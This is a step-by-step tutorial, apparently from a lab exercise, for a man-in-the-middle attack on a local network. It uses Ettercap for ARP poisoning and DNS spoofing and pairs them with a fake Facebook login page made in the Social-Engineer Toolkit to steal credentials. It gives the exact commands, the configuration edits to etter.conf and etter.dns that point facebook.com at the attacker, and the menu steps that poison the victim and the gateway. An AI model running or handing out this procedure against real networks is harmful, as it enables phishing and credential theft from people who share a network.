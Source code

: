 
##    Ettercap - ARP + DNS Spoofing ft. Social-Engineer Toolkit (SET)

https://www.youtube.com/watch?v=WuvRoJUe9fI

Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.1.10  |
|                  |         ------------------
|                  |         ------------------
|   192.168.1.1    |---------|     Victim     |
|                  |         |  192.168.1.15  |
--------------------         ------------------
```
1. Forward packets

By default, packets sent to a computer that aren't meant for that computer are dropped. However, since we're running a man-in-the-middle, all of our traffic will be someone else's. So run the following command to tell Linux to forward packets that aren't for us.
```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```
2. Configuring Ettercap

- Open the configuration file (etter.conf) with a text editor and edit the file.
```
# gedit /etc/ettercap/etter.conf
```
- Edit the "uid" and "gid" values at the top -> make them 0

- Scroll down until you find the heading that says "Linux" and under that remove both the # signs below where it says "if you use iptables"

- Save that configuration file

3. Using Social-Engineer Toolkit (SET) to set up a "Facebook login page"

- Please refer to the video...

4. Edit the host file for 'dns_spoof' plugin

In a real life scenario, an attacker would redirect traffic to their own machine for data sniffing. In this case, we set up a fake Facebook login page using SET (at step 3), then we use Ettercap to spoof DNS record so that when the victim visits the link facebook.com, he will be redirected to the attacker machine instead. This will probably fool the user into entering their credentials.

We need to modify the host file (etter.dns) which is responsible for redirecting specific DNS requests.
```
# gedit /etc/ettercap/etter.dns
```
Add two lines below "microsoft sucks" part, don't forget to change the IP address to your Kali's IP address.
```
facebook.com      A   192.168.1.10      # Attacker's IP address
*facebook.com      A   192.168.1.10      # Attacker's IP address
```
5. Using Ettercap to conduct DNS Spoofing

- Firstly for testing purpose, we need to clear the ARP cache on Kali machine
```
# ip -s -s neigh flush all
# ip link set arp off dev eth0; ip link set arp on dev eth0
```

- Then check the ARP cache again on Kali machine
```
# arp -n
```

- Open Ettercap

Generally speaking, you are on the same subnet as the target (typically connected to the same router)
- Go to Sniff > Unified sniffing... > choose the right network interface (the interface connected to the Internet)
- Go to Start > Stop sniffing (because Ettercap automatically starts sniffing after we press OK and we don't want that)

Now we need to scan for targets on our network
- Go to Hosts > Scan for hosts (wait until scanning is completed)
- Go to Hosts > Hosts list (to see all the targets that Ettercap has found)

Next we add our victim machine to Target 1 and our network gateway (router) to Target 2
- Select the victim IP address from the host list and choose 'Add to Target 1'
- select the gateway IP address from the host list and choose 'Add to Target 2'

Now we have both Targets set to our victim and gateway, we can proceed to the attack
- Go to MITM > ARP poisoning > choose "Sniff remote connections"
- Then go to Plugins > Manage the plugins > Double click "dns_spoof" to activate that plugin

Finally, let's sniff :)

- Go to Start > Start sniffing

6. Check your test results

Now every time the victim visits the webpage you indicated in the "etter.dns" file (facebook.com in this case), he will be redirected to the malicious webpage.

- For testing purpose, we need to purge the DNS resolver cache + Web browsing history on Victim machine
```
cmd> ipconfig /flushdns
IE / Firefox / Chrome > Clear Browsing Data
```

> Now it's time to check my Facebook profile

- On Victim machine, go to facebook.com

=> We can check the spoofed DNS records on the victim machine (Windows machine)
cmd> ipconfig /displaydns

=> We can also see the DNS records in Ettercap => [facebook.com] spoofed to [192.168.1.10]

* And don't forget to check traffic sniffed from SET...

